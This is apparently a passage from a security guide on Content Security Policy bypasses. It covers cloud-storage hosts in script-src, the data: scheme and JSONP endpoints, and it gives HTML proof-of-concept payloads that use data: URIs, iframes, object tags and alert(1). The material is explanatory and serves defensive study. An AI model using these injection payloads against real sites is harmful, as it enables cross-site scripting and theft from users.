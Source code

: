 Example: This CSP allows [https://storage.googleapis.com](https://storage.googleapis.com/) in script-src. This makes it possible for an attacker to upload a payload to GCP Cloud Storage and achieve arbitrary JavaScript execution.

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src https://storage.googleapis.com;">
</head>
<body>
    <script src=https://storage.googleapis.com/path/to/malicious/script.js></script>
</body>
```

**Explanation of the Risk:** Any cloud storage or hosting service that allows file uploads and direct linking via `<script src>` can be exploited if the CSP allows its domain. The attacker uploads a malicious JS file to this service, then forces the browser to load and execute it.

---

### data: Scheme

If default-src, script-src, frame-src or object-src allows the data: scheme, it's possible to execute arbitrary JavaScript code by injecting a tag.

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src data:;">
</head>
<body>
    <script src=data:text/javascript,alert(1)></script>
    <iframe src='data:text/html,<script defer="true" src="data:text/javascript,alert(1)"></script>'></iframe>
    <iframe srcdoc='<script src="data:text/javascript,alert(1)"></script>'></iframe>
    <object data="javascript:alert(1)">
</body>
```

**Explanation of the Risk:** Using a data: URI allows developers to embed data directly into HTML files, like images or code. If the CSP doesn't block data: in script-src or frame-src, an attacker can inject JavaScript code encoded as a data: URI and execute it.

---

### JSONP

JSONP APIs work with the callback= parameter, which specifies a function to process the data sent along with it. If there's no function name validation in JSONP, it's possible to inject a custom callback function and execute arbitrary JavaScript code.

JSONP APIs can be used to bypass a Content Security Policy. For example, the following CSP allows script loading from [https://accounts.google.com](https://accounts.google.com/). Since [https://accounts.google.com](https://accounts.google.com/) hosts JSONP endpoints, they can be used to execute arbitrary code.
